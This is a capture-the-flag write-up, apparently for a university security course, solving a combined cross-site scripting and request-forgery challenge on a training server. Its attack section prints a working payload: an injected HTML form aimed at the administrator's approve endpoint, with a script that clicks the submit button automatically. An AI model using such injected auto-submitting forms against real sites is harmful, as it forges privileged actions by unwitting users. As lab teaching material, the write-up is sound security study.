







# XSS + CSRF

## Clues

In order to carry out this CTF, we were given some clues:

On port 5004 of the server ctf-fsi.fe.up.pt there is a server where we can make a request to the administrator for him to give us access to the flag.
The administrator will accept our request through port 5005 where there are two buttons: one to accept the request and another to reject it. These buttons are disabled for us.
Our page refreshes every 5 seconds and the administrator's response can take up to 2 minutes.

In addition to this context, we are also given two very important tips related to the techniques we should use to solve this CTF:

> - `Cross-site Scripting`: It consists of injecting code into user input. Explore web pages like a regular user and find out what input you can control.
> - `Cross-site Request Forgery`: It consists of, on a page with a given origin, making requests to a page in a different origin. Explore what different pages exist and what requests you want to execute.

## Server

Entering the server on port 5004 we are presented with the following page:



This page has a text input that, after submission, takes us to the following page:



This page is the page that refreshes every 5s making it difficult to check its HTML or the requests it makes. However, taking into account the clues provided, we begin to realize that the input of the first page will probably be the place where we should do our code injection.

The second page has a button that allows us to reach the administrator's page:



This page has, as the clue mentioned, two buttons that are disabled for us. Checking the HTML of this page we can see the request that each of the buttons makes:

```html
<form
  method="POST"
  action="/request/b2a22357fbd231437b8875c71dedb9ddebb535f1/approve"
  role="form"
>
  <div class="submit">
    <input type="submit" id="giveflag" value="Give the flag" disabled="" />
  </div>
</form>
```

We quickly verify that the button that interests us is the first one, since it is this one that issues a post method that accepts our request. If we try to execute this request manually, the following page appears to us:



## Attack

Since our goal is for the administrator to issue the post method that accepts our current id, we can do it by inserting a form similar to the one found on port 5005 on the home page of port 5004. The form we made was the following:

```html
<form
  method="POST"
  action="http://ctf-fsi.fe.up.pt:5005/request/2d4cd430aa921d7a0ab7e0ab976d1e978a58dbe8/approve"
  role="form"
>
  <div class="submit">
    <input type="submit" id="giveflag" value="Give the flag" />
  </div>
  <script>
    document.getElementById("giveflag").click();
  </script>
</form>
```

The changes we made to the original form consisted of removing the disabled attribute from the submit button and adding a script that causes the button to be automatically clicked on the administrator's side. 
In this way, the administrator will issue the desired request:

---

Finally, we just have one more problem! The page to which we are redirected after submission in the input has the following script (already mentioned earlier):

```html
<script>
  setTimeout(function () {
    window.location.reload();
  }, 5000);
</script>
```

This script causes a page refresh every 5s, thus refreshing the valid id of our request. To circumvent this problem we can disable javascript in our browser:



---

Having said that, we can finally obtain the flag from the following steps:

1. Insert the form on the home page of port 5004;
   

2. After submitting the form in the input, manually refresh the page once our request has been accepted by the administrator;

3. Our flag appears on the screen!
   
